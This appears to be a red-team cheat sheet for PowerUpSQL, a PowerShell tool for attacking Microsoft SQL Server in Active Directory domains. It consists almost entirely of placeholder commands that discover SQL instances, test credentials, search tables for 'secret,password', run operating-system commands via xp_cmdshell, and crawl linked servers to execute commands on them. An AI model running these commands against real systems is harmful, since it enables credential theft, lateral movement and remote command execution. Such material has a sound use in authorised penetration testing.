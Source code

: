 ### source
https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1  

### discover active directory domain SQL server
```
Get-SQLInstanceDomain -Verbose | Get-SQLServerinfo -Verbose
```

### list accessible SQL server using credentials
```
Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username <user> -password <password> | Where-Object {$_.Status -like "Accessible"}
```

### get information from specific instance
```
Get-Sqlserverinfo -instance <instance>
```

### scan for misconfiguration
```
Invoke-sqlaudit -instance <instance>
```

### search database rows for specific keywords (NoDefaults skip default tables)
```
Get-SQLColumnSampleData –Verbose –Keyword "secret,password" –SampleSize 10 –NoDefaults -Instance <instance>
```

### execute command
```
Invoke-SQLOSCmd -Instance <instance> -Command '<command>' -RawResults
```

### execute query
```
Get-SQLQuery -Instance <instance> -Query 'SELECT * FROM master..sysservers'
```

### scan for linked databases
```
Get-SQLServerLinkCrawl -Instance <instance>
```

### execute commands on linked instances
```
Get-SQLServerLinkCrawl -Instance <instance> -Query "exec master..xp_cmdshell '<command>'"
```

### excute command on linked mssql instance via instance (xp_cmdshell can not be enabled by OpenQuery)
```
Get-SQLServerLinkCrawl -Instance <instance> -Query "exec master..xp_cmdshell '<command>' "
```

